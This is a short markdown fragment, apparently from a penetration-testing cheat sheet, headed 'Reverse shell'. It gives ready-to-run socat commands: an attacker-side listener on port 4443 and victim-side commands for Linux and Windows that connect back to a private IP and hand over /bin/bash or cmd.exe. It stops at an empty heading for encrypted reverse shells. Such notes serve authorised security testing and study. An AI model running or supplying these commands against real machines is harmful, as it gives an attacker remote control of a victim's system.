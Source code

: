 # Reverse shell
## Socat<br>
**Attacker:** `socat -d -d TCP4-LISTEN:4443 STDOUT`<br>
**Victim:** `socat TCP4:192.168.0.107:4443 EXEC:/bin/bash`<br>
**Victim windows:** `socat TCP4:192.168.0.107:4443 EXEC:'cmd.exe',pipes`<br>

## Encrypted reverse shell
